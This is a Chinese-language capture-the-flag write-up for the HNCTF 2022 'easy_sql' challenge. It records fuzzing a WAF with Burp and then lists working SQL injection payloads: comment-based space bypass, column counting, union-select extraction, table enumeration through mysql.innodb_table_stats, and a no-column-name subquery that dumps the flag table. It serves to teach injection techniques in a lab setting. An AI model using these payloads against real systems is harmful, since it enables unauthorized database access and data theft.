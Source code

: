 ## 基本信息

* 题目名称： [HNCTF 2022 WEEK2]easy_sql
* 题目链接： https://www.nssctf.cn/problem/2952
* 考点清单： sql注入，无列名注入
* 工具清单： burp,sqlmap
* payloads： 无

## 一、看到什么

**题目关键信息列表**：

1. 题目给了一个`id`查询的入口


## 二、想到什么解题思路

1. 用`sqlmap`直接跑一下
2. 跑不通，考虑存在`WAF`，使用`burp`看一下哪些关键词被过滤

## 三、尝试过程和结果记录

**尝试过程：**

1. `Sqlmap`无法得到结果，考虑存在`WAF`。
2. 使用常见的`sql`关键词字典进行`burp`注入，发现确实存在`WAF`。
    - `id`为1时，正常显示结果。
    - `id`设置为`union`时，提示【姓名不存在，或账号密码错误】
    - `id`设置为`information`时，提示`error`，都是字符串，但是结果不同，说明存在WAF。图中响应长度为`530`的都是被过滤的。空格和`order`，`and` 等等这些都被过滤了。
    

    ![](images/[HNCTF%202022%20WEEK2]easy_sql-waf.png)

3. 发现输入一些字符串作为`id`的时候，提示【姓名不存在，或账号密码错误】，说明是字符型注入。

4. 发现3不报错，4开始报错，确认列数为3。
    ```
    # 正常
    1'/**/group/**/by/**/3,'1
    # error
    1'/**/group/**/by/**/4,'1
    ```

5. 确定回显位置。显示3，说明3的位置是回显位。
    ```
    1'/**/union/**/select/**/1,2,3/**/'1
    ```
6. 查看数据库。爆出数据库为`ctf`
    ```
    1'/**/union/**/select/**/1,2,database()/**/'1 
    ```
7. 接下来查看表名,可以看到数据库有多个数据表。

    ```
    # 正常语句爆表名的时候，出现error,是因为information被过滤了。
    1'/**/union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/'1 

    # 换成mysql.innodb_table_stats,但是这个时候就是查询所有数据库里的所有表，没有表和数据库的关系。
    1'/**/union/**/select/**/1,2,group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/'1
    ```
    ![](images/[HNCTF%202022%20WEEK2]easy_sql-table.png)

8. 接下来就需要找到`flag`这个表所在的数据库。

    ```
    1'/**/union/**/select/**/1,2,group_concat(database_name)/**/from/**/mysql.innodb_table_stats/**/where/**/table_name="flag"'
    ```
    ![](images/[HNCTF%202022%20WEEK2]easy_sql-database.png)
    

9. 现在就需要查询这个表里写`flag`的列。发现就得到了`flag`。

    ```
    1'/**/union/**/select/**/1,2,`1`/**/from/**/(select/**/1/**/union/**/select/**/*/**/from/**/ctftraining.flag)xxx/**/where/**/'1
    ```
    - `select/**/1/**/union/**/select/**/*/**/from/**/ctftraining.flag` 最终的结果会包含一个 1 和 flag 表中的所有列。
    - `xxx` 是给这个子查询取的别名，用来标识这个子查询,是 SQL 语法的一部分。
    - `1`作用是查询 子查询（虚拟表）的第一列。


## 四、总结与反思

1. `sqlmap`跑不通的，就表明存在`WAF`，需要使用`burp`来`fuzz`看一下哪些关键词被过滤。
2. 可以根据注入类型来简单模拟写一个题目的查询语句，将自己的注入语句拼接其中，看是否能正常组成指令来检查自己语句错误。


